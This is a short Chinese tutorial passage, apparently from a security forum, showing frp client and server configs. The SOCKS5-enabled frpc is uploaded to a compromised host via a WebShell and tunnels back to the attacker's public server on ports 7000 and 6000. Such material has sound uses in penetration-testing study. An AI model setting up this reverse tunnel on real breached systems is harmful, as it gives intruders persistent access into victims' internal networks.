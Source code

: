 很简单，frpc 是客户端，frps 是服务端

[![](assets/1703210060-30bad2f1824b122fbdbbf7ee60c5e9bb.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231205110407-f432e73a-931a-1.png)

配置`frpc.ini`:

```bash
# frpc.ini
[common]
server_addr = 自己公网服务器地址
server_port = 7000

[frp]
type = tcp
remote_port = 6000
plugin = socks5    //这一句必须要加，不然代理连不上
```

客户端通过 WebShell 上传，frps 上传到自己的公网服务器上，配置`frps.ini`:

```bash
# frps.ini
[common]
bind_port = 7000
```

接下来要在自己的公网服务器上开 6000 和 7000 这两个端口，并执行命令进行监听：

```bash
./frps -c ./frps.ini
```
